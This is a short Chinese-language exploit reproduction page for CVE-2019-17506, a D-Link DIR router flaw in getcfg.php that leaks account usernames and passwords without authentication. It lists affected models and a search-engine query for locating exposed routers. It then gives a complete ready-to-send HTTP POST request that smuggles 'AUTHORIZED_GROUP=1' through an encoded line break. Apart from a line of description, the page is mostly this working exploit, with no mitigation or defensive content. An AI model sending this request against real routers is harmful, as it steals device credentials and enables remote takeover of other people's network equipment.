

# D-Link Dir-645 getcfg.php 账号密码泄露漏洞 CVE-2019-17506

## 漏洞描述

D-Link DIR-868L B1-2.03和DIR-817LW A1-1.04路由器上有一些不需要身份验证的Web界面。攻击者可以通过SERVICES的DEVICE.ACCOUNT值以及AUTHORIZED_GROUP = 1％0a来获取getcfg.php的路由器的用户名和密码（以及其他信息）。这可用于远程控制路由器

## 漏洞影响

<a-checkbox checked>D-Link Dir 系列多个版本</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="D_Link-DIR-868L"</a-checkbox></br>

## 漏洞复现

登录页面如下





发送下请求包

```plain
POST /getcfg.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Length: 61

SERVICES=DEVICE.ACCOUNT&attack=ture%0D%0AAUTHORIZED_GROUP%3D1
```


